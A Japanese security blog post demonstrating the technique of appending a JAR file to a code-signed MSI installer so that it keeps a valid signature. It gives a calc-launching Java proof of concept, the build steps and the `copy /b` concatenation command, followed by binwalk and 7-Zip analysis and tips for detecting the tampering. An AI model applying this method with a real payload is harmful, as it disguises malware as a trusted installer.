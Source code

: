 ```yaml
---
layout: post
title:  "malicious jar appended to msi"
date:   2019-01-28
permalink: /security/:title
categories: Security
tags: malware jar msi
excerpt: VirusTotal blogで2019.1.15に紹介されたマルウェア配信テクニックを実証します。
---
```


* content
{:toc}

# 初めに

2019年01月15日にVirusTotalブログに「悪意あるJARファイルをコード署名済みmsiファイルに追加する手法」の注意喚起が掲載されました。
コード署名とは信頼できるベンダーによって提供されたソフトウェアが改ざんされていない事を確認する手段の一つです。
コード署名が施されたexeファイルを改ざんすると署名は無効になりますが、
msiファイルの末尾に悪意あるコードを追加した場合は署名が無効化されません。

この抜け穴は悪意あるJARファイルを実行するのに効果的です。
JARファイルはJavaリソースをアーカイブするためにZIPフォーマットを採用しており、ファイル末尾のセントラルディレクトリを参照してアーカイブされたリソースを読み取ります。
つまり、ファイルの先頭がどのようなデータであろうと、末尾nバイトが正常なデータはJARとして機能します。

このポストでは、コード署名済みmsiファイルに悪意あるJARを追加する経験を通じて、そのような手法で作成されたファイルを見極める方法を考察します。

# 実行可能JARを作る

Windows calcを起動するだけのjavaプログラムを書きます。

```
public class Malware{
  public static void main(String[] args){
    try{
      Runtime.getRuntime().exec("cmd /c calc.exe");
    }catch(Exception e){
      e.printStackTrace();
    }
  }
}
```

エントリーポイントを指定するためにマニフェストを書きます。

```
Main-Class: Malware
```

コンパイルしてJARにまとめます。

```
> javac Malware.java
> jar cfm simple.jar mymanifest *.class
```

出来上がったsimple.jarをダブルクリックするとWindows calcが起動します。

# MSIに埋め込む

適当な署名済みMSIファイルを用意します。

![](/images/appendedmsi/capture01.png)

MSIファイルの後ろにsimple.jarを結合します。

```
> copy /b elasticsearch-6.5.4.msi + simple.jar attached.jar
```

attached.jarのプロパティから有効なデジタル署名を確認できますが、ダブルクリックするとWindows Calcが起動します。
JARファイルを少し書き換えれば、Windows Calcが起動した後で本来のMSIファイルの挙動に繋げることも出来そうです。
この手法で正規のインストーラーに偽装した悪意あるJARを拡散するシナリオが想定されます。

<iframe width="560" height="315" src="https://www.youtube.com/embed/klDeYL5KzM4" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

# 改ざんを見極める

JARを埋め込んだMSIにどのような特徴があるのか調べました。

- バイナリが違うので既知のシグネチャにはマッチしません
- ハッシュも変わります
- 元がMSIなのでマジックナンバーがPKではありません

  ![](/images/appendedmsi/capture02.png)

- ファイル種別はMSI Installerです

  ```
  root@user-VirtualBox:/tmp# file attached.jar
  attached.jar: Composite Document File V2 Document, Little Endian, Os: Windows, Version 6.2, MSI Installer
  ```

- x509証明書の後ろにZIPデータが続いています

  ```
  root@user-VirtualBox:/tmp# binwalk attached.jar

  DECIMAL       HEXADECIMAL     DESCRIPTION
  --------------------------------------------------------------------------------
  20480         0x5000          Microsoft Cabinet archive data, 104004344 bytes, 336 files
  1778894       0x1B24CE        Zip archive data, at least v2.0 to extract, name: META-INF/BC1024KE.SF
  2428408       0x250DF8        Zip archive data, at least v2.0 to extract, name: META-INF/MANIFEST.MF
  2582000       0x2765F0        Zip archive data, at least v2.0 to extract, name: META-INF/BC1024KE.SF
  2732443       0x29B19B        Zip archive data, at least v2.0 to extract, name: META-INF/BC1024KE.DSA
  ...(snip)...
  105941412     0x65089A4       XML document, version: "1.0"
  105947648     0x650A200       Microsoft Cabinet archive data, 3707320 bytes, 10 files
  109688426     0x689B66A       eCos RTOS string reference: "eCostInitializeFileCostCostFinalizeInstallValidateInstallInitializeInstallAdminPackageInstallFinalizeExecuteActionPublishFeature"
  109688444     0x689B67C       eCos RTOS string reference: "eCostCostFinalizeInstallValidateInstallInitializeInstallAdminPackageInstallFinalizeExecuteActionPublishFeaturesPublishProductINS"
  109772948     0x68B0094       Certificate in DER format (x509 v3), header length: 4, sequence length: 1177
  109774129     0x68B0531       Certificate in DER format (x509 v3), header length: 4, sequence length: 1386
  109775519     0x68B0A9F       Certificate in DER format (x509 v3), header length: 4, sequence length: 1504
  109780992     0x68B2000       Zip archive data, at least v2.0 to extract, name: META-INF/
  109781053     0x68B203D       Zip archive data, at least v2.0 to extract, name: META-INF/MANIFEST.MF
  109781208     0x68B20D8       Zip archive data, at least v2.0 to extract, name: Malware.class
  109781808     0x68B2330       End of Zip archive
  ```

- アーカイブされたファイルを参照できます

  ```
  root@user-VirtualBox:/tmp# 7za L attached.jar

  7-Zip (A) [64] 9.20  Copyright (c) 1999-2010 Igor Pavlov  2010-11-18
  p7zip Version 9.20 (locale=C,Utf16=off,HugeFiles=on,1 CPU)

  Listing archive: attached.jar

  --
  Path = attached.jar
  Type = zip
  Physical Size = 108002936
  Offset = 1778894

     Date      Time    Attr         Size   Compressed  Name
  ------------------- ----- ------------ ------------  ------------------------
  2019-01-27 18:06:50 D....            0            2  META-INF
  2019-01-27 18:06:50 .....           90           89  META-INF/MANIFEST.MF
  2019-01-27 17:37:30 .....          535          357  Malware.class
  ------------------- ----- ------------ ------------  ------------------------
                                     625          448  2 files, 1 folders
  ```

# まとめ

悪意あるJARを署名済みMSIに埋め込むことは非常に簡単です。
そのようにして作成された悪意あるファイルは元のデジタル署名を引き継ぐため、一見しただけでは正常なファイルのように見えます。

幸いなことに、悪意あるJARファイルを見極めるのに役立ついくつかの観点があります。
ファイルを実行する前に少し立ち止まって、これに目を向けてください。

- ファイルのハッシュが公式サイトに掲載されている値と一致しているか
- ファイルのマジックナンバーと拡張子が一致しているか
- ファイルの末尾に不審なZIPデータが付いていないか

また、VirusTotalブログに記載されている通り、MS Sysinternal Sigcheckの最新版には今回の改ざんを検知する新たな機能が実装されています。VirusTotalもSigcheckを利用しており、今回のファイルに対してSigned but the filesize is invalid (the file is too large)という警告を上げてくれます。

# 参考URL

- [VirusTotal: Distribution of malicious JAR appended to MSI files signed by third parties](https://blog.virustotal.com/2019/01/distribution-of-malicious-jar-appended.html)
- [Wikipedia: ZIPファイルフォーマット](https://ja.wikipedia.org/wiki/ZIP_(%E3%83%95%E3%82%A1%E3%82%A4%E3%83%AB%E3%83%95%E3%82%A9%E3%83%BC%E3%83%9E%E3%83%83%E3%83%88)
